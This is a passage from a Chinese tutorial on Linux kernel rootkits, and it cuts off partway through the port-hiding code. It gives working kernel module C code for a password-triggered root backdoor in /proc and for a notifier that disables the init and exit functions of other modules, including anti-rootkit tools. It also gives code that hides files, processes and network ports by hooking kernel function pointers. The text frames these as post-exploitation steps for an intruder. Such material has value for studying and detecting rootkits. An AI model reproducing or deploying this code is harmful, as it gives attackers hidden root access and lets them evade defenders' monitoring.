






Linux Rootkit 系列三：实例详解 Rootkit 必备的基本功能
=====================================================

**最后修改时间** ： **2016-07-20 CST** 。

rectigu@gmail.com, 二〇一六年六月。

**FreeBuf 链接** ：
http://www.freebuf.com/articles/system/107829.html 。

前言
----

**鉴于笔者知识能力上的不足，如有疏忽，欢迎纠正。**

本文所需的完整代码位于笔者的代码仓库：
https://github.com/NoviceLive/research-rootkit。

测试建议： **不要在物理机测试！不要在物理机测试！
不要在物理机测试！**

概要
----

在 `上一篇文章`_ 中笔者详细地阐述了基于直接修改系统调用表
（即 ``sys_call_table`` / ``ia32_sys_call_table`` ）的挂钩，
文章强调以代码与动手实验为核心。

长话短说，本文也将以同样的理念带领读者一一缕清
Rootkit 必备的基本功能，
包括提供 root 后门，控制内核模块的加载，
**隐藏文件** （提示：这是文章的重点与核心内容），
隐藏进程，隐藏网络端口，隐藏内核模块等。

短话长说，本文不打算给大家介绍剩下的几种不同的系统调用挂钩技术：
比如说，修改 32 位系统调用（ 使用 ``int $0x80`` ）
进入内核需要使用的 `IDT`_
（ `Interrupt descriptor table`_ / 中断描述符表） 项，
修改 64 位系统调用（ 使用 ``syscall`` ）需要使用的 `MSR`_
（ `Model-specific register`_ / 模型特定寄存器，具体讲，
64 位系统调用派遣例程的地址位于 `MSR_LSTAR`_ ）；
又比如基于修改系统调用派遣例程
（对 64 位系统调用而言也就是 ``entry_SYSCALL_64`` ） 的钩法；
又或者，内联挂钩 / `Inline Hooking`_ 。

这些钩法我们以后再谈，现在，我们先专心把一种钩法玩出花样。
`上一篇文章`_ 讲的钩法，也就是函数指针的替换，并不局限于钩系统调用。
本文会将这种方法应用到其他的函数上。

.. _上一篇文章: http://www.freebuf.com/sectool/105713.html

第一部分：Rootkit 必备的基本功能
--------------------------------

**站稳，坐好。**

1. 提供 root 后门
+++++++++++++++++

这个特别好讲，笔者就拿提供 root 后门这个功能开刀了。

大家还记得前段时间 `全志`_ （ `AllWinner`_ ）
提供的 Linux 内核里面的 root 后门吧，
不了解的可以看一下 `FB`_ 之前的文章，
`外媒报道：中国知名ARM制造商全志科技在Linux中留下内核后门`_ 。

我们拿 `后门的那段源代码`_ 改改就好了。

具体说来，逻辑是这样子的，
我们的内核模块在 `/proc`_ 下面创建一个文件，
如果某一个进程向这个文件写入特定的内容
（读者可以把这个“特定的内容”理解成口令或者密码），
我们的内核模块就把这个进程的 uid_ 与 euid_ 等等全都设置成 0，
也就是 root 账号的。这样，这个进程就拥有了 root 权限。

不妨拿 `全志`_ root 后门这件事来举个例子，
在运行有后门的 Linux 内核的设备上，
进程只需要向 ``/proc/sunxi_debug/sunxi_debug`` 写入 ``rootmydevice``
就可以获得 root 权限。

另外，我们的内核模块创建的那个文件显然是要隐藏掉的。
考虑到现在还没讲文件隐藏（本文后面会谈文件隐藏），所以
这一小节的实验并不包括将创建出来的文件隐藏掉。

下面我们看看怎样在内核模块里创建 `/proc`_ 下面的文件。

`全志`_ root 后门代码里用到的 ``create_proc_entry``
是一个过时了的 API_ ，而且在新内核里面它已经被去掉了。
考虑到笔者暂时还不考虑兼容老的内核，
所以我们直接用新的 API_ ， ``proc_create`` 与 ``proc_remove`` ，
分别用于创建与删除一个 `/proc`_ 下面的项目。

函数原型如下。

.. code-block:: c

   # include <linux/proc_fs.h>

   static inline struct proc_dir_entry *
   proc_create(const char *name, umode_t mode, struct proc_dir_entry *parent, const struct file_operations *proc_fops);

   void
   proc_remove(struct proc_dir_entry *entry);

``proc_create`` 参数的含义依次为，文件名字，文件访问模式，
父目录，文件操作函数结构体。
我们重点关心第四个参数： ``struct file_operations``
里面是一些函数指针，即对文件的各种操作的处理函数，
比如，读（ ``read`` ）、写（ ``write`` ）。
该结构体的定义位于 ``linux/fs.h`` ，后面讲文件隐藏的时候还会遇到它。

创建与删除一个 `/proc`_ 文件的代码示例如下。

.. code-block:: c

   struct proc_dir_entry *entry;

   entry = proc_create(NAME, S_IRUGO | S_IWUGO, NULL, &proc_fops);

   proc_remove(entry);

实现我们的需求只需要提供一个写操作（ ``write`` ）
的处理函数就可以了，如下所示。

.. code-block:: c

   ssize_t
   write_handler(struct file * filp, const char __user *buff,
                 size_t count, loff_t *offp);

   struct file_operations proc_fops = {
       .write = write_handler
   };

   ssize_t
   write_handler(struct file * filp, const char __user *buff,
                 size_t count, loff_t *offp)
   {
       char *kbuff;
       struct cred* cred;

       // 分配内存。
       kbuff = kmalloc(count, GFP_KERNEL);
       if (!kbuff) {
           return -ENOMEM;
       }

       // 复制到内核缓冲区。
       if (copy_from_user(kbuff, buff, count)) {
           kfree(kbuff);
           return -EFAULT;
       }
       kbuff[count] = (char)0;

       if (strlen(kbuff) == strlen(AUTH) &&
           strncmp(AUTH, kbuff, count) == 0) {

           // 用户进程写入的内容是我们的口令或者密码，
           // 把进程的 ``uid`` 与 ``gid`` 等等
           // 都设置成 ``root`` 账号的，将其提权到 ``root``。
           fm_alert("%s\n", "Comrade, I will help you.");
           cred = (struct cred *)__task_cred(current);
           cred->uid = cred->euid = cred->fsuid = GLOBAL_ROOT_UID;
           cred->gid = cred->egid = cred->fsgid = GLOBAL_ROOT_GID;
           fm_alert("%s\n", "See you!");
       } else {
           // 密码错误，拒绝提权。
           fm_alert("Alien, get out of here: %s.\n", kbuff);
       }

       kfree(buff);
       return count;
   }

实验
****

编译并加载我们的内核模块，以 Kali_ 为例：
Kali_ 默认只有 root 账号，
我们可以用 ``useradd <username>``
添加一个临时的非 root 账号来运行提权脚本（ ``r00tme.sh`` ）做演示。
效果参见下图，
可以看到在提权之前用户的 uid_ 是 1000，
也就是普通用户，不能读取 ``/proc/kcore`` ；
提权之后， uid_ 变成了 0，也就是超级用户，可以读取 ``/proc/kcore`` 。

.. _后门的那段源代码: https://github.com/allwinner-zh/linux-3.4-sunxi/blob/bd5637f7297c6abf78f93b31fc1dd33f2c1a9f76/arch/arm/mach-sunxi/sunxi-debug.c#L41

2. 控制内核模块的加载
+++++++++++++++++++++

想象一下，在一个月黑风高的夜晚，邪恶的读者（误：善良的读者）
通过某种手段（可能的经典顺序是 RCE_ + LPE_ ，
Remote Code Execution / 远程代码执行
+ Local Privilege Escalation / 本地特权提升）
得到了某台机器的 root 命令执行；
进而执行 Rootkit 的 Dropper 程序释放并配置好 Rootkit，
让其进入工作状态。

这时候，Rootkit 首先应该做的并不是提供 root 后门；
而是，一方面，我们应该尝试把我们进来的门（漏洞）堵上，
避免 **其他** 不良群众乱入，另一方面，我们希望能控制好其他程序
（这个其他程序主要是指反 Rootkit 程序与 **其他** 不良 Rootkit），
使其不加载 **其他** 不良内核模块与我们在内核态血拼。

理想状态下，我们的 Rootkit 独自霸占内核态，
阻止所有不必要的代码
（尤其是反 Rootkit 程序与 **其他** 不良 Rootkit）在内核态执行。
当然，理想是艰巨的，所以我们先做点容易的，控制内核模块的加载。

**2016-07-20 CST 更新** ： **独自霸占内核态的理想错误的，
Rootkit 强调的是后门（隐蔽）属性，不是霸道（嚣张）** 。

控制内核模块的加载，我们可以从通知链机制下手。
通知链的详细工作机制读者可以查看参考资料；
简单来讲，当某个子系统或者模块发生某个事件时，
该子系统主动遍历某个链表，
而这个链表中记录着其他子系统或者模块注册的事件处理函数，
通过传递恰当的参数调用这个处理函数达到事件通知的目的。

具体来说，我们注册一个模块通知处理函数，
在模块完成加载之后、开始初始化之前，
即模块状态为 ``MODULE_STATE_COMING`` ，
将其初始函数掉包成一个什么也不做的函数。
这样一来，模块不能完成初始化，也就相当于残废了。

笔者决定多读读代码，少讲理论，
所以我们先简要分析一下内核模块的加载过程。
相关代码位于内核源码树的 ``kernel/module.c`` 。
我们从 ``init_module`` 开始看。

.. code-block:: c

   SYSCALL_DEFINE3(init_module, void __user *, umod,
            unsigned long, len, const char __user *, uargs)
   {
        int err;
        struct load_info info = { };

        // 检查当前设置是否允许加载内核模块。
        err = may_init_module();

        if (err)
            return err;

        pr_debug("init_module: umod=%p, len=%lu, uargs=%p\n",
               umod, len, uargs);

        // 复制模块到内核。
        err = copy_module_from_user(umod, len, &info);
        if (err)
            return err;

        // 交给 ``load_module`` 进一步处理。
        return load_module(&info, uargs, 0);
   }

模块加载的主要工作都是 ``load_module`` 完成的，这个函数比较长，
这里只贴我们关心的一小段。

.. code-block:: c

   static int load_module(struct load_info *info, const char __user *uargs,
               int flags)
   {
        // 这儿省略若干代码。

        /* Finally it's fully formed, ready to start executing. */
        // 模块已经完成加载，可以开始执行了（但是还没有执行）。
        err = complete_formation(mod, info);
        if (err)
            goto ddebug_cleanup;

        // 我们注册的通知处理函数会在 ``prepare_coming_module`` 的
        // 时候被调用，完成偷天换日。在下面我们还会分析一下这个函数。
        err = prepare_coming_module(mod);
        if (err)
            goto bug_cleanup;

        // 这儿省略若干代码。

        // 在 ``do_init_module`` 里面，模块的初始函数会被执行。
        // 然而在这个时候，我们早就把他的初始化函数掉包了（/偷笑）。
        return do_init_module(mod);

        // 这儿省略若干代码：错误时释放资源等。
   }

.. code-block:: c

   static int prepare_coming_module(struct module *mod)
   {
        int err;

        ftrace_module_enable(mod);
        err = klp_module_coming(mod);
        if (err)
            return err;

        // 就是这儿！调用通知链中的通知处理函数。
        // ``MODULE_STATE_COMING`` 会原封不动地传递给我们的处理函数，
        // 我们的处理函数只需处理这个通知。
        blocking_notifier_call_chain(&module_notify_list,
                         MODULE_STATE_COMING, mod);
        return 0;
   }

说的具体点，
我们注册的通知链处理函数是在 ``notifier_call_chain``
函数里被调用的，调用层次为： ``blocking_notifier_call_chain`` ->
``__blocking_notifier_call_chain`` -> ``notifier_call_chain`` 。
有疑惑的读者可以细致地看看这部分代码，
位于内核源码树的 ``kernel/notifier.c`` 。

代码分析告一段落，接下来我们看看如何注册模块通知处理函数。
用于描述通知处理函数的结构体是 ``struct notifier_block`` ，
定义如下 。

.. code-block:: c

   typedef  int (*notifier_fn_t)(struct notifier_block *nb,
                unsigned long action, void *data);

   struct notifier_block {
        notifier_fn_t notifier_call;
        struct notifier_block __rcu *next;
        int priority;
   };

注册或者注销模块通知处理函数可以使用 ``register_module_notifier``
或者 ``unregister_module_notifier`` ，函数原型如下。

.. code-block:: c

   int
   register_module_notifier(struct notifier_block *nb);

   int
   unregister_module_notifier(struct notifier_block *nb);

编写一个通知处理函数，然后填充 ``struct notifier_block`` 结构体，
最后使用 ``register_module_notifier`` 注册就可以了。代码片段如下。

.. code-block:: c

   int
   module_notifier(struct notifier_block *nb,
                   unsigned long action, void *data);

   struct notifier_block nb = {
       .notifier_call = module_notifier,
       .priority = INT_MAX
   };

上面的代码是声明处理函数并填充所需结构体；
下面是处理函数具体实现。

.. code-block:: c

   int
   fake_init(void);
   void
   fake_exit(void);

   int
   module_notifier(struct notifier_block *nb,
                   unsigned long action, void *data)
   {
       struct module *module;
       unsigned long flags;
       // 定义锁。
       DEFINE_SPINLOCK(module_notifier_spinlock);

       module = data;
       fm_alert("Processing the module: %s\n", module->name);

       //保存中断状态加锁。
       spin_lock_irqsave(&module_notifier_spinlock, flags);
       switch (module->state) {
       case MODULE_STATE_COMING:
           fm_alert("Replacing init and exit functions: %s.\n",
                    module->name);
           // 偷天换日：篡改模块的初始函数与退出函数。
           module->init = fake_init;
           module->exit = fake_exit;
           break;
       default:
           break;
       }

       // 恢复中断状态解锁。
       spin_unlock_irqrestore(&module_notifier_spinlock, flags);

       return NOTIFY_DONE;
   }

   int
   fake_init(void)
   {
       fm_alert("%s\n", "Fake init.");

       return 0;
   }

   void
   fake_exit(void)
   {
       fm_alert("%s\n", "Fake exit.");

       return;
   }

实验
****

测试时我们还需要构建另外一个简单的模块（ ``test`` ）来测试，
从下图可以看到在加载用于控制模块加载的内核模块（ ``komonko`` ）
之前， ``test`` 的初始函数与退出函数都正常的执行了；
在加载 ``komonko`` 之后， 无论是加载 ``test`` 还是卸载 ``test`` ，
它的初始函数与退出函数都没有执行，
执行的是我们掉包后的初始函数与退出函数。

3. 隐藏文件
+++++++++++

说好的重点内容文件隐藏来了。
不过说到文件隐藏，我们不妨先看看文件遍历的实现，
也就是系统调用 ``getdents`` / ``getdents64`` ，
简略地浏览它在内核态服务函数（sys_getdents）的源码
（位于 ``fs/readdir.c`` ），我们可以看到如下调用层次，
``sys_getdents`` -> ``iterate_dir``
-> ``struct file_operations`` 里的 ``iterate``
-> 这儿省略若干层次
-> ``struct dir_context`` 里的 ``actor`` ，也就是 ``filldir`` 。

``filldir`` 负责把一项记录（比如说目录下的一个文件或者一个子目录）
填到返回的缓冲区里。如果我们钩掉 ``filldir`` ，
并在我们的钩子函数里对某些特定的记录予以直接丢弃，
不填到缓冲区里，上层函数与应用程序就收不到那个记录，
也就不知道那个文件或者文件夹的存在了，也就实现了文件隐藏。

具体说来，我们的隐藏逻辑如下：
篡改根目录（也就是“/”）的 ``iterate`` 为我们的假 ``iterate`` ，
在假函数里把 ``struct dir_context`` 里的 ``actor`` 替换成我们的
假 ``filldir`` ，假 ``filldir`` 会把需要隐藏的文件过滤掉。

下面是假 ``iterate`` 与 假 ``filldir`` 的实现。

.. code-block:: c

   int
   fake_iterate(struct file *filp, struct dir_context *ctx)
   {
       // 备份真的 ``filldir``，以备后面之需。
       real_filldir = ctx->actor;

       // 把 ``struct dir_context`` 里的 ``actor``，
       // 也就是真的 ``filldir``
       // 替换成我们的假 ``filldir``
       *(filldir_t *)&ctx->actor = fake_filldir;

       return real_iterate(filp, ctx);
   }

   int
   fake_filldir(struct dir_context *ctx, const char *name, int namlen,
                loff_t offset, u64 ino, unsigned d_type)
   {
       if (strncmp(name, SECRET_FILE, strlen(SECRET_FILE)) == 0) {
           // 如果是需要隐藏的文件，直接返回，不填到缓冲区里。
           fm_alert("Hiding: %s", name);
           return 0;
       }

       /* pr_cont("%s ", name); */

       // 如果不是需要隐藏的文件，
       // 交给的真的 ``filldir`` 把这个记录填到缓冲区里。
       return real_filldir(ctx, name, namlen, offset, ino, d_type);
   }

钩某个目录的 ``struct file_operations`` 里的函数，
笔者写了一个通用的宏。

.. code-block:: c

   # define set_f_op(op, path, new, old)                       \
       do {                                                    \
           struct file *filp;                                  \
           struct file_operations *f_op;                       \
                                                               \
           fm_alert("Opening the path: %s.\n", path);          \
           filp = filp_open(path, O_RDONLY, 0);                \
           if (IS_ERR(filp)) {                                 \
               fm_alert("Failed to open %s with error %ld.\n", \
                        path, PTR_ERR(filp));                  \
               old = NULL;                                     \
           } else {                                            \
               fm_alert("Succeeded in opening: %s\n", path);   \
               f_op = (struct file_operations *)filp->f_op;    \
               old = f_op->op;                                 \
                                                               \
               fm_alert("Changing iterate from %p to %p.\n",   \
                        old, new);                             \
               disable_write_protection();                     \
               f_op->op = new;                                 \
               enable_write_protection();                      \
           }                                                   \
       } while(0)

实验
****

实验时，笔者随（gu）手（yi）用来隐藏的文件名： ``032416_525.mp4`` 。
从下图我们可以看到，在加载我们的内核模块（ ``fshidko`` ）之前，
``test`` 目录下的 ``032416_525.mp4`` 是可以列举出来的；
但是加载 ``fshidko`` 之后就看不到了，并且在 ``dmesg`` 的日志里，
我们可以看到 ``fshidko`` 打印的隐藏了这个文件的信息。

选读内容：相关内核源码的简略分析
********************************

.. code-block:: c

   SYSCALL_DEFINE3(getdents, unsigned int, fd,
            struct linux_dirent __user *, dirent, unsigned int, count)
   {
        // 这儿省略若干代码。

        struct getdents_callback buf = {
            .ctx.actor = filldir, // 最后的接锅英雄。
            .count = count,
            .current_dir = dirent
        };

        // 这儿省略若干代码。

        // 跟进 ``iterate_dir``，
        // 可以看到它是通过 ``struct file_operations`` 里
        // ``iterate`` 完成任务的。
        error = iterate_dir(f.file, &buf.ctx);

        // 这儿省略若干代码。

        return error;
   }

   int iterate_dir(struct file *file, struct dir_context *ctx)
   {
        struct inode *inode = file_inode(file);
        int res = -ENOTDIR;

        // 如果 ``struct file_operations`` 里的 ``iterate``
        // 为 ``NULL``，返回 ``-ENOTDIR`` 。
        if (!file->f_op->iterate)
            goto out;

        // 这儿省略若干代码。

        res = -ENOENT;
        if (!IS_DEADDIR(inode)) {
            ctx->pos = file->f_pos;
            // ``iterate_dir`` 把锅甩给了
            // ``struct file_operations`` 里的 ``iterate``，
            // 对这个 ``iterate`` 的分析请看下面。
            res = file->f_op->iterate(file, ctx);
            file->f_pos = ctx->pos;
            // 这儿省略若干代码。
        }
        // 这儿省略若干代码。
   out:
        return res;
   }

这一层一层的剥开，
我们来到了 ``struct file_operations`` 里面的 ``iterate`` ，
这个 ``iterate`` 在不同的文件系统有不同的实现，
下面（位于 ``fs/ext4/dir.c`` ）
是针对 ext4_ 文件系统的 ``struct file_operations`` ，
我们可以看到 ext4_ 文件系统的 ``iterate`` 是 ``ext4_readdir`` 。

.. code-block:: c

   const struct file_operations ext4_dir_operations = {
        .llseek         = ext4_dir_llseek,
        .read       = generic_read_dir,
        .iterate    = ext4_readdir,
        .unlocked_ioctl = ext4_ioctl,
   #ifdef CONFIG_COMPAT
        .compat_ioctl   = ext4_compat_ioctl,
   #endif
        .fsync      = ext4_sync_file,
        .open       = ext4_dir_open,
        .release    = ext4_release_dir,
   };

``ext4_readdir`` 经过各种各样的操作之后会通过 ``filldir``
把目录里的项目一个一个的填到 ``getdents``
返回的缓冲区里，缓冲区里是一个个的 ``struct linux_dirent`` 。
我们的隐藏方法就是在 ``filldir`` 里把需要隐藏的项目给过滤掉。

4. 隐藏进程
+++++++++++

Linux 上纯用户态枚举并获取进程信息， `/proc`_ 是唯一的去处。
所以，对用户态隐藏进程，我们可以隐藏掉 `/proc`_ 下面的目录，
这样用户态能枚举出来进程就在我们的控制下了。
读者现在应该些许体会到为什么文件隐藏是本文的重点内容了。

我们修改一下上面隐藏文件时的假 ``filldir`` 即可实现进程隐藏，
如下所示。

.. code-block:: c

   int
   fake_filldir(struct dir_context *ctx, const char *name, int namlen,
                loff_t offset, u64 ino, unsigned d_type)
   {
       char *endp;
       long pid;

       // 把字符串变成长整数。
       pid = simple_strtol(name, &endp, 10);

       if (pid == SECRET_PROC) {
           // 是我们需要隐藏的进程，直接返回。
           fm_alert("Hiding pid: %ld", pid);
           return 0;
       }

       /* pr_cont("%s ", name); */

       // 不是需要隐藏的进程，交给真的 ``filldir`` 填到缓冲区里。
       return real_filldir(ctx, name, namlen, offset, ino, d_type);
   }

实验
****

笔者选择隐藏 pid 1 来做演示。在使用 systemd_ 的系统上，
pid 1 总是 systemd_ ，看下图，
我们可以看到加载我们的模块（ ``pshidko`` ）之后，
``ps -A`` 看不到 systemd_ 了；把 ``pshidko`` 卸载掉，
systemd_ 就显示出来了。

5. 隐藏端口
+++++++++++

向用户态隐藏端口，
其实就是在用户进程读 `/proc`_ 下面的相关文件获取端口信息时，
把需要隐藏的的端口的内容过滤掉，
使得用户进程读到的内容里面没有我们想隐藏的端口。

具体说来，看下面的表格。

============  ==================  =======================  =================
网络类型      `/proc`_ 文件       内核源码文件             主要实现函数
------------  ------------------  -----------------------  -----------------
TCP_ / IPv4_  ``/proc/net/tcp``   ``net/ipv4/tcp_ipv4.c``  ``tcp4_seq_show``
------------  ------------------  -----------------------  -----------------
TCP_ / IPv6_  ``/proc/net/tcp6``  ``net/ipv6/tcp_ipv6.c``  ``tcp6_seq_show``
------------  ------------------  -----------------------  -----------------
UDP_ / IPv4_  ``/proc/net/udp``   ``net/ipv4/udp.c``       ``udp4_seq_show``
------------  ------------------  -----------------------  -----------------
UDP_ / IPv6_  ``/proc/net/udp6``  ``net/ipv6/udp.c``       ``udp6_seq_show``
============  ==================  =======================  =================

本小节以 TCP_ / IPv4_ 为例，其他情况读者可举一反三。

文件的第一行是每一列的含义，
后面的行就是当前网络连接（ socket_ / 套接字）的具体信息。
这些信息是通过 ``seq_file`` 接口在 ``/proc`` 中暴露的。
``seq_file`` 拥有的操作函数如下，我们需要关心是 ``show`` 。

.. code-block:: c

   struct seq_operations {
        void * (*start) (struct seq_file *m, loff_t *pos);
        void (*stop) (struct seq_file *m, void *v);
        void * (*next) (struct seq_file *m, void *v, loff_t *pos);
        int (*show) (struct seq_file *m, void *v);
   };

前面我们提到了隐藏端口也就是在进程读取 ``/proc/net/tcp`` 等文件
获取端口信息时过滤掉不希望让进程看到的内容，具体来讲，
就是将 ``/proc/net/tcp`` 等文件的 ``show``
函数篡改成我们的钩子函数，
然后在我们的假 ``show`` 函数里进行过滤。

我们先看看用来描述 ``seq_file`` 的结构体，即 ``struct seq_file`` ，
定义于 ``linux/seq_file.h`` 。
``seq_file`` 有一个缓冲区，也就是 ``buf`` 成员，
容量是 ``size`` ，已经使用的量是 ``count`` ；
理解了这几个成员的作用就能理解用于过滤端口信息的假
``tcp_seq_show`` 了。

.. code-block:: c

   struct seq_file {
        char *buf; // 缓冲区。
        size_t size; // 缓冲区容量。
        size_t from;
        size_t count; // 缓冲区已经使用的量。
        size_t pad_until;
        loff_t index;
        loff_t read_pos;
        u64 version;
        struct mutex lock;
        const struct seq_operations *op;
        int poll_event;
        const struct file *file;
        void *private;
   };

钩 ``/proc/net/tcp`` 等文件的 ``show``
函数的方法与之前讲隐藏文件钩 ``iterate`` 的方法类似，
用下面的宏可以通用的钩这几个文件 ``seq_file`` 接口里面的操作函数。

.. code-block:: c

   # define set_afinfo_seq_op(op, path, afinfo_struct, new, old)   \
       do {                                                        \
           struct file *filp;                                      \
           afinfo_struct *afinfo;                                  \
                                                                   \
           filp = filp_open(path, O_RDONLY, 0);                    \
           if (IS_ERR(filp)) {                                     \
               fm_alert("Failed to open %s with error %ld.\n",     \
                        path, PTR_ERR(filp));                      \
               old = NULL;                                         \
           }                                                       \
                                                                   \
           afinfo = PDE_DATA(filp->f_path.dentry->d_inode);        \
           old = afinfo->seq_ops.op;                               \
           fm_alert("Setting seq_op->" #op " from %p to %p.",      \
                    old, new);                                     \
           afinfo->seq_ops.op = new;                               \
                                                                   \
           filp_close(filp, 0);                                    \
       } while (0)

最后，我们看看假 ``show`` 函数是如何过滤掉端口信息的。

**注1** ： ``TMPSZ`` 是 150，内核源码里是这样定义的。
换句话说，``/proc/net/tcp``
里的每一条记录都是 149 个字节（不算换行）长，
不够的用空格补齐。

**注2** ： 我们不用 ``TMPSZ`` 也可以，并且会更加灵活，
具体细节请看下面隐藏内核模块时
``/proc/modules`` 的假 ``show`` 函数是怎么处理的。

.. code-block:: c

   int
   fake_seq_show(struct seq_file *seq, void *v)
   {
       int ret;
       char needle[NEEDLE_LEN];

       // 把端口转换成 16 进制，前面带个分号，避免误判。
       // 用来判断这项记录是否需要过滤掉。
       snprintf(needle, NEEDLE_LEN, ":%04X", SECRET_PORT);
       // real_seq_show 会往 buf 里填充一项记录
       ret = real_seq_show(seq, v);

       // 该项记录的起始 = 缓冲区起始 + 已有量 - 每条记录的大小。
       if (strnstr(seq->buf + seq->count - TMPSZ, needle, TMPSZ)) {
